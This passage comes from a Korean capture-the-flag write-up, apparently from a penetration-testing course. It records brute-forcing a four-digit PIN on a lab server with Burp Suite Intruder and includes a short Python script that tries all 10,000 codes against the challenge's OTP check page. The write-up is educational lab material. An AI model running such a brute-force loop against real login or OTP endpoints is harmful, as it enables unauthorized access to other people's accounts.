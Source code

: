 이에 따라 응답 내용이 달라졌음을 알 수 있었고, `1021`을 입력하면 로그인에 실패하지 않고 `index.php`로 리다이렉트됨을 확인하였다.

![PIN CODE Crack](/data/Penetration%20Testing%20|%20Week%205/36.png)

올바른 PIN Code인 `1021`을 입력하여 플래그를 획득하였다.

> **Brute Force**
>
> 가능한 모든 경우의 수를 시도하여 정답을 찾아내는 공격 방법을 **Brute Force**라고 한다. 시간과 자원의 소모가 상당하여 표면적으로 비효율적인 방법으로 인식될 수 있으나 100%의 정확도를 보장하기 때문에 공격 방식 중 가장 확실하고 치명적이다.

참고로, Burp Suite Community Edition은 Intruder의 속도가 매우 느리다. 총 10000번의 요청을 전송해야 하는 상황에서 시간이 지나치게 소요되어 1000개씩 나누어 전송하며 확인하였다. 다행히 1000번대 번호에서 정답을 발견하여 아주 오랜 시간이 걸리지는 않았으나, 동일한 작업을 수행할 수 있는 스크립트를 작성하여 공격을 수행하는 것이 훨씬 더 적합하다고 판단된다. 예시 스크립트를 아래에 첨부한다.

```python
# brute_force.py

import requests

url = "http://ctf.segfaulthub.com:1129/checkOTP.php"

for i in range(10000):
  code = f"{i:04}"
  response = requests.get(url, params={"optNUM": code})
  
  if "Login Fail" not in response.text:
    print(f"PIN CODE: {code}")
    break
```
